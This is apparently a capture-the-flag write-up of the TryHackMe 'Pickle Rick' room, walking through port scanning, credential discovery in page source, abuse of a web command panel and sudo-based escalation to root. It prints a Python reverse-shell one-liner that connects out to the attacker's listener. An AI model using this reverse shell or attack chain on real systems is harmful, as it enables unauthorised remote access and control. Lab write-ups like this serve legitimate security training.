 # THM - Pickle Rick

#### Ip: 10.10.103.60
#### Name: Pickle Rick
#### Rating: Easy

----------------------------------------------------------------------

![pickle.jpeg](../assets/pickle_rick_assets/pickle.png)

```text
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.
```

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -p-  --min-rate 10000 10.10.103.60 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.29 seconds
```

Lets also use the `-sC` and `-sV` flags to use Nmap basuc scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -sC -sV -T4 10.10.103.60 -p 22,80    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5235f7e6c7c64166d9efe23b67dc765c (RSA)
|   256 d00a4604437517acce7f615384723ce7 (ECDSA)
|_  256 0eb8ff00831db6bb1d5c800b7be0c9c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.07 seconds
```

Heading to the sight we see a note from Rick to Morty:

site.png

Checking out the source of the page we find a username left as a comment:

note.png

Cool. Lets also manually check for a robots.txt page while we're here:

robots.png

Ok, not exactly positive what this is. trying to go to http://10.10.103.60/Wubbalubbadubdub we get a Not Found page. 

Lets do some directory fuzzing to see if we can find any other pages:

ferox.png

Cool, looks like we've found a login page. Let's check that out:

login.png

Nice! We were able to login with the found username and used Wubbalubbadubdub for the password.

Interesting, looks like there is a panel to execute commands on the server with. Running `whoami` we see we have execution:

panel.png

Trying to go to access any other materials on the site we get redirected to `/denied.php`

denied.png

Funily enough, checking out the source code of the login page we find another comment:

```text
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

This looks like Base64 encoded text.

Trying to decode it in the terminal I realize it's been encoded multiple times, so I keep adding additional decoding until I finally get to the clear text:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ echo "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
base64: invalid input
base64: invalid input
rabbit hole
```
Ha- here we are getting trolled by the box creators. 

Looks like we'll need to move on.

Going back to the command panel running `ls -la` shows me some interesting files:

```text
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

Trying to view any of these files using the `cat` command is blocked:

cmd.png

Ok, so there must be some command filtering happing here. Lets try and bypass this by using the panel to get a reverse shell.

### Exploitation

First I'll set up a Netcat listener on my attacking machine and then head over to

From there i can grab a Python reverse shell oneliner and run it:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And a second later I get a call back to my listener:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.103.60] 48232
$ whoami
whoami
www-data
$ hostname
hostname
ip-10-10-103-60
$ ls -la
ls -la
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

From here I can answer the first question:

```text
What is the first ingredient that Rick needs?
```

first.png

Looks like there was a clue left behind:

```text
www-data@ip-10-10-103-60:/var/www/html$ cat clue.txt 
Look around the file system for the other ingredient.
```

Poking around the box a bit more we find the second ingredient in rick's `/home` directory:

```text
What is the second ingredient in Rick’s potion?
```

second.png

### Privilege Escalation

Lets try and get root access now. I'll try `sudo -l` to list out any commands I can run with root permissions:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-103-60.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-103-60.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Wow- looks like we can run whatever we want as sudo. Lets just switch our user to the root user:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo su -
root@ip-10-10-103-60:~# whoami
root
root@ip-10-10-103-60:~# id
uid=0(root) gid=0(root) groups=0(root)
```

And from there we can answer the final question:

```text
What is the last and final ingredient?
```

third.png

Thanks for following along!

-Ryan

------------------------------------------------------------------
